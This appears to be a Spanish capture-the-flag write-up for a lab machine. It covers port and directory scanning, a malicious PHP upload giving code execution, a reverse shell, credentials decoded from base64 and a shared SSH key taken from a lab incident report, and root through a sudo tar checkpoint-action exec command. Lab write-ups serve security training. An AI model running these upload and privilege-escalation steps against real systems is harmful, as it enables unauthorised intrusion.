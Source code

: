## Enumeracion de Puertos, Servicios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2 -oN nmap
```
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 09:42 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1d:4a:16:27:ad:b8:0b:aa:28:64:b0:10:3b:be:79:1c (ECDSA)
|_  256 0b:0f:11:d6:5a:e9:f5:25:c8:17:0d:71:c1:29:c9:53 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: CyberLand Labs - Innovaci\xC3\xB3n en Ciberseguridad
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.53 seconds
```

comienzo chequeando el servicio web

![image](https://github.com/user-attachments/assets/232202bc-57e8-46c9-8f93-a854a2b9d69c)

realizo fuzzing web

```ruby
feroxbuster -u 'http://172.17.0.2' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,php,bak,db,py,html,js,jpg,png,git,sh -t 200 --random-agent --no-state -d 10
```
```bash
                                                                                                                                                                          
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, bak, db, py, html, js, jpg, png, git, sh]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 10
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       65l      221w     3010c http://172.17.0.2/index.html
200      GET      158l      327w     2870c http://172.17.0.2/styles.css
200      GET       44l      152w     1749c http://172.17.0.2/script.js
200      GET       27l       54w      826c http://172.17.0.2/contact.html
200      GET       39l       81w     1327c http://172.17.0.2/team.html
200      GET       29l       67w      931c http://172.17.0.2/blog.html
200      GET      796l     4529w   371895c http://172.17.0.2/logo.png
301      GET        9l       28w      310c http://172.17.0.2/uploads => http://172.17.0.2/uploads/
200      GET     6186l    35127w  2810752c http://172.17.0.2/banner.png
200      GET       65l      221w     3010c http://172.17.0.2/
[####################] - 67s  2491836/2491836 0s      found:10      errors:0      
[####################] - 67s  2491548/2491548 37308/s http://172.17.0.2/ 
[####################] - 0s   2491548/2491548 1245774000/s http://172.17.0.2/uploads/ => Directory listing (add --scan-dir-listings to scan)
```
veo que existe el directorio `/uploads` por lo que imagino que de alguna forma podre cargar archivos solo que no veo el panel de carga, asi que despues de chequear el script `js` 
observo algo interesante

![image](https://github.com/user-attachments/assets/fde9add8-ea37-402b-8af9-a343a5c6ee31)

si que existe un panel de carga y despues de varios testeos accedo en `http://172.17.0.2/#fileUpload` y al chequear su codigo fuente observo

![image](https://github.com/user-attachments/assets/a0f159d4-159e-4081-9f4d-69fc001aabfe)

ya tengo localizado el panel de carga asi que accedo `http://172.17.0.2/m4ch1n3_upload.php`

![image](https://github.com/user-attachments/assets/d3a0fba2-acaa-4b84-b71c-9a02042e0f9c)

aqui me cargo un archivo php malicioso, sube sin problema alguna y obtengo una `rce`

![image](https://github.com/user-attachments/assets/04fa554f-aed6-41b8-9462-6b2064a91343)

me envio una `revershell` y obtengo acceso al sistema

## Escalada de Privilegios

### www-data

tratamiento de la tty

```bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 38 columns 168
export TERM=xterm
export SHELL=bash
```
exiten los siguientes usuarios en el sistema: `charlie`, `bob` & `alice`; busco archivos en el sistema que pertenezcan a alguno de estos usuarios pero sin resultado, en cambio al buscar
por `www-data` me consigo con un archivo de `log`

![image](https://github.com/user-attachments/assets/3d977a3b-91f1-4e70-b50e-60fbd2cc14c1)

decodifico la cadena que parece ser `base64`

```ruby
echo 'YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3' |base64 -d
```

obtengo credenciales para el user `alice`

### alice

consigo la `flag` 

![image](https://github.com/user-attachments/assets/860e89cd-d10f-4c8a-bfcd-d974a5e58a3b)

consigo un reporte de incidentes que tiene buena innformacion

```bash
=== INCIDENT REPORT ===
Archivo generado automaticamente por el sistema de auditoria interna de CyberLand Labs.

Fecha: 2023-11-22  
Auditor Responsable: Alice Carter  
Asunto: Configuracion Erronea de Claves SSH  

=== DESCRIPCION ===  
Durante una reciente auditoria de seguridad en nuestro servidor principal, descubrimos un grave error de configuracion en el sistema de autenticacion SSH. El problema parece originarse en un script automatizado utilizado para generar claves RSA para los usuarios del sistema.

En lugar de crear claves unicas para cada usuario, el script genero una unica clave `id_rsa` y la replico en todos los directorios de usuario en el servidor. Ademas, la clave esta protegida por una passphrase que, aunque tecnicamente existe, no ofrece ningun nivel real de seguridad.

=== HALLAZGO ADICIONAL ===  
Durante el analisis, encontramos que la passphrase de la clave privada del usuario `bob` se almaceno accidentalmente en un archivo temporal en el sistema. El archivo no ha sido eliminado, lo que significa que la passphrase esta ahora expuesta.

**Passphrase del Usuario `bob`:** `cyb3r_s3curity`

=== DETALLES DE LA CONFIGURACION ===  
Clave Privada: id_rsa  
Passphrase: cyb3r_s3curity  
Ubicacion: Copiada en todos los directorios `/home/<usuario>/.ssh/`

=== CONSECUENCIAS ===  
1. **Perdida de Privacidad**: Todos los usuarios comparten la misma clave, lo que significa que cualquiera puede autenticarse como cualquier otro usuario si obtiene acceso a la clave.  

=== POSIBLES SOLUCIONES ===  
- Implementar un sistema centralizado de gestion de claves.  
- Forzar a los usuarios a cambiar sus claves regularmente.  
- Actualizar las politicas internas para prohibir el uso de scripts inseguros en la configuracion de credenciales.  

=== NOTA FINAL ===  
Este incidente pone de manifiesto la importancia de revisar las configuraciones criticas en sistemas sensibles. Es crucial que todo el equipo de IT se mantenga alerta y que se implementen controles mas estrictos para evitar errores similares en el futuro.

--- FIN DEL INFORME ---
```

aqui el objetivo pasa a ser enviar a mi maquina atacante la clave `id_rsa` para autenticarme en el sistema como cualquier `user`

![image](https://github.com/user-attachments/assets/b4a3cdbe-1244-4d4f-8507-acc358afcb33)

le asigno los permisos necesarios a la llave para que pueda funcionar

```bash
chmod og-rwx id_rsa
```
procedo acceder al user `bob` via ssh

```
ssh -i id_rsa bob@172.17.2
```

la `passphrase` se encuentra en el reporte de `incidencias`

### bob



```sudo -l

Matching Defaults entries for bob on e3bff6e1986b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bob may run the following commands on e3bff6e1986b:
    (ALL) NOPASSWD: /bin/tar
```

escalamos a `root`

```ruby
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

![image](https://github.com/user-attachments/assets/e0899ef6-8e11-47f3-81cc-66f20b650541)

### root





















